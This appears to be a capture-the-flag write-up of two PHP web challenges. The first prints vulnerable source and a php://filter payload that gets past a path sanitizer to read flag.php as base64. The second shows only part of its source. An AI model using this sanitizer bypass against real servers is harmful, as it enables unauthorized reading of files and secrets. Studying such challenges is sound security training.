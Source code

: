 



### [Traversaller]

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "/var/www/html/flag.php";

function sanitize_path($p) {
        return str_replace(array("\0","\r","\n","\t","\x0B",'..','./','.\\','//','\\\\',),'',trim($p, "\x00..\x1F"));
}
$path = $_GET['path'];
if(isset($path) && str_contains($path, "/var/www/html/static/")) {
    die(file_get_contents(sanitize_path($path)));
}

?>
```

利用php为协议读取`/var/www/html/flag.php`，但要对题目对特殊的路径符号进行过滤的绕过

payload

```
?source&path=php:/\\\\/filter/read=/var/www/html/static/convert.base64-encode/resource=/var/www/html/flag.php
```

![image-20240408200424328](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240408200424328.png?imageSlim)

### [executy]

```php
<?php
ini_set("error_reporting", 0);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}
include "flag.php";

# From: https://stackoverflow.com/questions/2040240/php-function-to-generate-v4-uuid/15875555#15875555
function format_uuidv4($data)
{
  assert(strlen($data) == 16);

  $data[6] = chr(ord($data[6]) & 0x0f | 0x40); // set version to 0100
  $data[8] = chr(ord($data[8]) & 0x3f | 0x80); // set bits 6-7 to 10
    
  return vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($data), 4));
}

$THE_SCRIPT = <<<SCRIPT
#!/bin/sh
cat flag.txt;
SCRIPT;

```